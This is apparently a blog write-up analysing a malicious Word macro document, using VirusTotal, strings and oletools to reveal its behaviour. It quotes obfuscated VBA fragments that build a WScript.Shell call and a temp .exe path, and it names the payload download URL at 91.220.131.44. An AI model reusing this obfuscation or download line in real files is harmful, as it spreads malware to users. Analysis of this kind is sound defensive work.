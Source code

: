 ```yaml
---
title:  "Malicious Document Analysis"
author: Vince Jang
date: 2024-01-15 00:00:00 +0000
categories: [projects]
tags: [projects]
image: /assets/img/pic.10.3.png
render_with_liquid: false
---
```


# Malicious Document Analysis(DOC VBA)

Weaponized MS office documents pose a large risk to organizations.. From embedded active content, such as scripts and HTML code in Word and Powerpoint files to Excel macros, this is an attack vector every organization must pay attention to. About 1 million companies worldwide use Office 365 and 70% of Fortune 500 companies purchased O365 in 2020. As a result, nearly every business transaction involving a file transfer will likely be in a Microsoft office format at risk of containing malware.

![images](/assets/img/pic10.1.1.PNG)  
Have you ever seen this warning when opening MS Office files? And did you just click it? This is the danger you should be aware of. As soon as you click the 'Enable Content' button, your whole computer could be compromised. Unfortunately, people still click it

## Macro
Macros is A small program that is often written to automate repetitive tasks in MS Office applications. Macros are typically written in Visual Basic for Application(VBA), a programming language developed by microsoft that is supported by all Microsoft Office products.

## Tools
1. Linux / highly recommend REMnux on VirtualBox but I will use Kali for instance
2. ExifTool, Strings, Xorsearch and more
3. Olevba to extract malicious macros

## Analysis 

I am going to do basic dynamic analysis with [Virustotal](https://www.virustotal.com/gui/home/upload),  
We are going to Extract Hash key of Baddoc.doc(Malicious file)  
![images](/assets/img/pic10.1.PNG)  
and we are going to use Search module in Virustotal to see what information we can get.  
![images](/assets/img/pic10.2.PNG)  
![images](/assets/img/pic10.3.PNG)  
![images](/assets/img/pic10.4.PNG)  
![images](/assets/img/pic10.5.PNG)  
As you can see we can find all information such as file names, create dates, contacted IP addresses, drop files, sand box reports, registry set keys and many more  
Do you think this is malicious file? I agree but I need more information, Let's dig into it.  

if you are using REMnux all tools are pre installed, If you using other Linux you might need to install some of tools.  
![images](/assets/img/pic10.6.PNG)  
Let's start analyze  
![images](/assets/img/pic10.7.PNG)  
We can see the Language code is "Russian" and Template type is ".dotm" which is Macros.  
this is pretty suspicious to me.  
## What to look for
1. IP addresses
2. Website / http
3. Domains
4. File locations that are suspicious
5. Malicious code
6. Malicious files  
Okay lets type `strings -n 5 baddoc.doc` (it basically means find strings anything longer than 5 characters)  
![images](/assets/img/pic10.8.PNG)  
![images](/assets/img/pic10.9.PNG)  
![images](/assets/img/pic10.10.PNG)  
I can see some IP addresses and File directories which is suspicious but it's really messy and hard to look.  
Let's use other tools  
I installed oletools 
![images](/assets/img/pic10.12.PNG)  
and excute it.  
![images](/assets/img/pic10.13.PNG)  
![images](/assets/img/pic10.14.PNG)  
We can see more organized information such as this document is not encryped and this file contains VBA Macros, but still Very Basic.  
Let's see what is in VBA script.  
![images](/assets/img/pic10.15.PNG)  
![images](/assets/img/pic10.16.PNG)  
Here we go. It highlighted suspicious keywords and we can have a look in more details.  
If we open this file all the code in this file will be excuted.  
![images](/assets/img/pic10.17.PNG)  
For example, I found a code line `"$file = 'c:\Users\" + USER + "\AppData\Local\Temp\" + "4" & "44." + Chr(101) & "xe';"`,`Chr(Asc("C")) + "reate" + "O" + "bject(" + Chr(34) + "W" + "S" + "cript." + "S" + "hell" + Chr(34) + ")" + "" & ""` this is malicious code. they use divided strings to hide the actual code they want to excute.  
I still want to see more Detail,
So, I decoded all the malicious code file.  
![images](/assets/img/pic10.18.PNG)  
And it looks like this.  
![images](/assets/img/pic10.19.PNG)  
![images](/assets/img/pic10.20.PNG)  
![images](/assets/img/pic10.21.PNG)  
![images](/assets/img/pic10.22.PNG)  
"It gives us more details in keywords and descriptions, such as PowerShell commands, executable file names, temporary directories, ping, and many more. With this information, I am 100% sure that this is a malicious file.  
One thing that is really interesting is the use of a bit of a twist: `Print #FileNumber, "strRT = ""http://91.220.131" + JASHDUIQWHDKJQAD + ".exe""` . If you find "JASHDUIQWHDKJQAD" in this code, it is it is ![images](/assets/img/pic10.24.PNG)  
In this case This URL is going to install something and it will be `http://91.220.131.44/upd/install.exe` Now we know IP address, Malicious file and the path.  
SO, DO NOT OPEN IT!











